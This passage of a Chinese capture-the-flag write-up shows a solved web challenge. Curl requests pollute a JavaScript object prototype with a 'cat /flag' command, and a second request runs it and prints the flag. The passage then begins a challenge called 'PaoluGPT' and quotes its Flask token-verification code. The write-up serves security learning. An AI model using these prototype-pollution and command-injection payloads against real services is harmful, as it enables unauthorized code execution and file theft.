 `{"key":"__proto__","value": {"a": 114514}}`
`OK`

呃呃呃，还有什么好说的，污染就完事了

```shell
leohearts@leohearts-ThinkBook ~> curl https://chal03-je7wvtda.hack-challenge.lug.ustc.edu.cn:8443/set -H 'Content-Type: application/json' -d '{"key":"__proto__.__proto__.__proto__.flag","value":"cat /flag"}'
{"message":"OK"}⏎                                                                                                       leohearts@leohearts-ThinkBook ~> curl https://chal03-je7wvtda.hack-challenge.lug.ustc.edu.cn:8443/execute'?cmd=flag'
flag{n0_pr0topOIl_50_U5E_new_Map_1n5teAD_Of_0bject2kv_246e8ad59d}
```


## PaoluGPT

一开始还以为是LLM题，结果...

> 由于 GPU 机房火灾，目前聊天功能暂不可用，预计下周恢复。

🌚

给了附件，关键函数：

```python
from flask import Flask, request, render_template, session, redirect, url_for, make_response
import hashlib
import OpenSSL
import base64
from dataclasses import dataclass
from database import execute_query
import secrets

app = Flask(__name__)
app.secret_key = secrets.token_urlsafe(64)

app.config["MAX_CONTENT_LENGTH"] = 2 * 1024 * 1024

with open("./cert.pem") as f:
    cert = OpenSSL.crypto.load_certificate(OpenSSL.crypto.FILETYPE_PEM, f.read())


@app.before_request
def check():
    if request.path.startswith("/static/"):
        return
    if request.args.get("token"):
        try:
            token = request.args.get("token")
            id, sig = token.split(":", 1)
            sig = base64.b64decode(sig, validate=True)
            OpenSSL.crypto.verify(cert, sig, id.encode(), "sha256")
            session["token"] = token
        except Exception:
            session["token"] = None
        return redirect(url_for("index"))
    if session.get("token") is None:
        return make_response(render_template("error.html"), 403)

@dataclass
class Message:
    id: str
    title: str
    contents: str

```

  [1]: ./assets//4046521366.webp
  [2]: ./assets//281655009.webp
  [3]: ./assets//4046521366.webp
  [4]: ./assets//1500912061.webp
  [5]: ./assets//3096051582.webp
  [6]: ./assets//557543131.webp